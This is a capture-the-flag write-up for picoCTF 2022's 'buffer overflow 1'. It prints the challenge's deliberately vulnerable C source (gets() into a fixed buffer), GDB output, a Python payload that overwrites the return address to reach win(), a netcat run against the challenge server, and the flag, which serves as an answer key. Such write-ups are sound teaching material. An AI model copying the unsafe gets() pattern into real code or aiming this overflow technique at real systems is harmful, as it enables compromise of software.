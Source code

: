 # picoCTF 2022

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Category | Binary Exploitation |
| Challenge Name | buffer overflow 1 |
| Points | 200 |

## Description

Control the return address

#### Hints

- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Approach

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

After looked up the source code. The function `win()` never been called. So, It should be the return address. Let's execute the binary in gdb and disassemble main.

### GDB (debugger)

```bash
(gdb) disassemble main 
Dump of assembler code for function main:
   0x080492c4 <+0>:	endbr32 
   0x080492c8 <+4>:	lea    ecx,[esp+0x4]
   0x080492cc <+8>:	and    esp,0xfffffff0
   0x080492cf <+11>:	push   DWORD PTR [ecx-0x4]
   0x080492d2 <+14>:	push   ebp
   0x080492d3 <+15>:	mov    ebp,esp
   0x080492d5 <+17>:	push   ebx
   0x080492d6 <+18>:	push   ecx
   0x080492d7 <+19>:	sub    esp,0x10
   0x080492da <+22>:	call   0x8049130 <__x86.get_pc_thunk.bx>
   0x080492df <+27>:	add    ebx,0x2d21
   0x080492e5 <+33>:	mov    eax,DWORD PTR [ebx-0x4]
   0x080492eb <+39>:	mov    eax,DWORD PTR [eax]
   0x080492ed <+41>:	push   0x0
   0x080492ef <+43>:	push   0x2
   0x080492f1 <+45>:	push   0x0
   0x080492f3 <+47>:	push   eax
   0x080492f4 <+48>:	call   0x80490b0 <setvbuf@plt>
   0x080492f9 <+53>:	add    esp,0x10
   0x080492fc <+56>:	call   0x8049070 <getegid@plt>
   0x08049301 <+61>:	mov    DWORD PTR [ebp-0xc],eax
   0x08049304 <+64>:	sub    esp,0x4
   0x08049307 <+67>:	push   DWORD PTR [ebp-0xc]
   0x0804930a <+70>:	push   DWORD PTR [ebp-0xc]
   0x0804930d <+73>:	push   DWORD PTR [ebp-0xc]
   0x08049310 <+76>:	call   0x80490d0 <setresgid@plt>
   0x08049315 <+81>:	add    esp,0x10
   0x08049318 <+84>:	sub    esp,0xc
   0x0804931b <+87>:	lea    eax,[ebx-0x1f60]
   0x08049321 <+93>:	push   eax
   0x08049322 <+94>:	call   0x8049080 <puts@plt>
   0x08049327 <+99>:	add    esp,0x10
   0x0804932a <+102>:	call   0x8049281 <vuln>
   0x0804932f <+107>:	mov    eax,0x0
   0x08049334 <+112>:	lea    esp,[ebp-0x8]
   0x08049337 <+115>:	pop    ecx
   0x08049338 <+116>:	pop    ebx
   0x08049339 <+117>:	pop    ebp
   0x0804933a <+118>:	lea    esp,[ecx-0x4]
   0x0804933d <+121>:	ret    
End of assembler dump.

```

The function `vuln()` get user's inputs. So, Prepare the payload to smash the binary and then analyse the code.

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
print padding
```

Execute the python script and piping to file called exploit.

```bash
python2 stack.py > exploit
```

#### GDB (debugger)

Set the breakpoint to vuln() address and run the payload.

```bash
(gdb) break *0x0804932a
Breakpoint 1 at 0x804932a
(gdb) r < exploit 
Starting program: /home/whoami/Workspace/picoctf/picoctf2022/binary_exp/bufferoverflow1/vuln < exploit
Please enter your string: 

Breakpoint 1, 0x0804932a in main ()
(gdb) ni
Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c

Program received signal SIGSEGV, Segmentation fault.
0x4c4c4c4c in ?? ()
(gdb) x win 
0x80491f6 <win>:	0xfb1e0ff3

```

See It overflow's EIP with `0x4c4c4c4c` and `0x4c means 'L'`. Let's cut down the string from `'L'` and modify our python code with return address of `win()`.

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK"
padding += "\xf6\x91\x04\x08" # 0x80491f6
print padding
```

Connect to the netcat and pipe the payload. Here, We got redirected to `win()` address.

```bash
nc saturn.picoctf.net 62786 < exploit 

Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```
